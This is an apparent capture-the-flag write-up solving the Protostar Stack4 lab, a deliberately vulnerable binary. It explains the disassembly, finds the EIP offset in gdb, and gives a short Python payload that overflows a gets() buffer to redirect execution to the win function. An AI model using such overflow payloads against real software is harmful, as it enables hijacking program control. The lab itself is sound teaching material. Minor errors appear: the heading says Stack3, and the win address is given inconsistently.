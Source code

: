 ```yaml
---
title: Protostar - Stack 4
date: 2024-02-14 20:32:00
categories: [binary-exploitation, protostar]
tags: [protostar, binary-exploitation, stack4]
---
```


# Conquering Stack3 at Protostar Machine
Hello ! Hex murders! 🏴‍☠️ Today, I set sail on a quest to conquer the [Stack4](https://exploit.education/protostar/stack-four/) challenge aboard the [Protostar](https://exploit.education/protostar) machine XD .

This time, we're on a mission to hijack the execuation flow and steer it straight into the welcoming arms of a function called `win` We Love `eip` hijacking hah ;). Get ready for some stack-bufferoverflow shenanigans.

This challenge requiring us to Redirect Execution to call function called `win` defined in the code useing through exploitation of stack-bufferoverflow.

### **Challenge Overview**
- **Challenge Name:** [Stack4](https://exploit.education/protostar/stack-four/)
- **Machine:** [Protostar](https://exploit.education/protostar)

### Step 1: Explore Binary
![Stack4 Explore](/assets/img/protostar/stack4-explore.png)
Again there is input ... Hmmm i think i know this function which prompt input XD .. , but i will not say :D .. you will know letter :) .
### Step 2: Analysis
![Stack4 Analsis](/assets/img/protostar/stack4-analysis.png)
1. Function Prologue:
   - `push ebp`: Save the base pointer.
   - `mov ebp, esp`: Set up a new base pointer.
   - `and esp, 0xfffffff0`: Align the stack.
   - `sub esp, 0x60`: Allocate space for local variables.
2. Create Pointer to Buffer on Stack and Store it in `[esp]` pointer:
- `lea eax, [esp+0x10]`: Load effective address into `eax`, pointin' to a spot in the stack space.
- `mov DWORD PTR [esp], eax`: Store the address pointed by `eax` at the top of the stack.
3. Function Calls:
- `call 804830c <gets@plt>`: Calling the gets function. But beware, gets be dangerous due to its lack of bounds checking. It be a prime target for exploiting! , so my friend . that is the function which i told you about ;)
4. Function Epilogue:
- `leave` Restore the stack frame. it is short for `mov esp,ebp` and `pop ebp`
- `ret` Return from the function. 
5. `win` Function address is at `0x080483f4` 

### Step 3: Debugging

#### Theory of instruction `call`

1. first when call a function program `push` current current eip address on stack 
2. then `jmp` to function which called 
3. function `push ebp` , and `mov ebp,esp` which is known as `Function Prologue` which is init stack frame
4. at the end of function when it finished it make  `Fucnction Epilogue` which is destory stack frame by `mov esp,ebp` then `pop ebp` which is also can be shorted as `leave` instruction
5. when execute `ret` in this function which called the `eip` `pop` the first value pushed before in the stack in step 1 which represent the `eip` value which is instruction after the function called to continue execute code that after function call

Now let,s fuzz & debug ! ;)

1. create fuzz script at `~/fuzz.py` contains:
```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"
print(fuzz)
```
2. debug binary with gdb and disassemble `main` 
3. break point at `leave` instruction in `main`
4. run binary with stdin from output of running `~/fuzz.py`
5. check fuzz value at ebp register
6. check fuzz value at eip register
![Stack4 Debug](/assets/img/protostar/stack4-gdb-debug.png)

![Stack4 Debug](/assets/img/protostar/stack4-gdb-debug2.png)
- `ebp` value now is `0x53535353` which is hexadecimal respresntation for  fuzz value `SSSS` 

![Stack4 Debug](/assets/img/protostar/stack4-gdb-debug3.png)
- and of course  `eip` value now is `0x54545454` which is hexadecimal respresntation for fuzz value `TTTT` 
- well done now let,s craft our solution

### Step 4: Crafting Solution 
okay let,s update our script: `~/fuzz.py`

```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR"
ebp="SSSS"
eip="\xf4\x83\x04\x08" # represent 0x080483f4 on little endian machines. 0x080483f4 is address of win function
print(fuzz+ebp+eip)
```
now `eip` will have the address of `0x080483da` which is address for function `win`
let,s run our solution redirect outpur of `~/fuzz.py` to our beautiful binary `stack4`

![Stack4 Sloved](/assets/img/protostar/stack4-solved.png)

and now function `win` called .. 
We `win` !  .. CheckMate ;) 
See You in `stack5` ;)

